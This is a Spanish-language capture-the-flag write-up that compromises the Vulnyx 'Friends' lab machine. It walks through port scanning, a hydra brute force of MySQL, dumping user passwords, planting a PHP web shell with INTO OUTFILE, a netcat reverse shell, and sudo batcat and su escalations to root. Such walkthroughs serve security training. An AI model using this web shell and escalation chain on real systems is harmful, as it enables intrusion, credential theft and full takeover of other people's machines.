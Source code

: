 
# Vulnyx Friends

```bash
arp-scan -I eth0 --localnet
(IP-victima)
```

```bash
nmap -p 22,80,3306 -sS -sC -sV -n -Pn (IP-victima) -oN nmap
```
- 22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
- 80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
- 3306/tcp open  mysql   MySQL 5.5.5-10.5.19-MariaDB-0+deb11u2

```bash
wfuzz
index.php
```

Luego de intentar por muchas vías, por lógica asumimos que tenemos dos posibles usuarios "beavis" y "butt-head" dado que al ingresar al puerto 80 tenemos una imagen de ellos dos y tenemos un puerto de MySQL al cual se le puede hacer fuerza bruta.

```bash
hydra -l beavis -P /usr/share/wordlists/rockyou.txt mysql://(IP-victima)
```
- [3306][mysql] host: (IP-victima)   login: beavis   password: r*******ll

Ahora a ingresar vía MySQL:
```bash
mysql -h (IP-victima) -u beavis -p
Enter password: r*********l
```
```sql
show databases;
use friends;
show tables;
select * from users;
```
- User: beavis   pass: b*******3
- User: butthead pass: B********!

Bien, luego de intentar ingresar sin éxito vía SSH ya que está bloqueado, damos con la información de que vía MySQL podemos leer archivos, así que apuntamos al archivo "index.php" con éxito.

**Dentro de MySQL:**
```sql
SELECT LOAD_FILE("/var/www/html/index.php");
/* print "For more Rock & Roll visit: /M3t4LL1c@ "; */
```
`/var/www/html` es una ruta por defecto de Apache.

Bien, hemos encontrado una nueva ruta que con wfuzz no dimos anteriormente.
Al ingresar vemos que es un gif sin mucho más.

Ahora, ya sabiendo que podemos leer archivos, intentaremos subir archivos vía MySQL.
```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/M3t4LL1c@/webshell.php";
```
Ahora sí, podemos ejecutar comandos dentro de la nueva ruta.

```bash
http://(IP-victima)/M3t4LL1c@/webshell.php?cmd=whoami
www-data
```

Ahora toca meter una reverse shell urlencodeada. Yo ya la tengo, pero para conseguirla ingresar a [reverseshells.com](https://reverseshells.com) y urlencodearla con Burp Suite.

Nos ponemos en escucha con netcat:
```bash
nc -nlvp 443
```

Ejecutamos y ya estamos dentro como el usuario www-data. Ahora a hacer el tratamiento de la TTY para estar más cómodo.
```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Ya una vez dentro, encontramos los dos usuarios que ya conocíamos: Beavis y Butthead. Ahora toca escalar a esos usuarios para tener más privilegios.
```bash
sudo -l
(beavis) NOPASSWD: /usr/bin/batcat
```

Ok, según GTFObins podemos abrir una shell vía batcat: [GTFObins - batcat](https://gtfobins.github.io/gtfobins/batcat/)
```bash
sudo -u beavis /usr/bin/batcat --paging always /etc/profile
```
Se abre todo un menú con código y nos permite ejecutar un comando, ahí es donde pegamos el siguiente comando:
```bash
!/bin/sh
```
Y ya somos Beavis:
```bash
whoami
beavis
```

Luego de varios intentos, recordamos que tenemos la contraseña de Butthead, por lo tanto intentaremos por esa vía.
```bash
su butthead
pass: B******!
```
```bash
whoami
butthead
```

Al hacer `sudo -l` como Butthead, vemos que podemos ejecutar como root el binario "su":
```bash
sudo su
whoami
root
```
Ya somos root :D
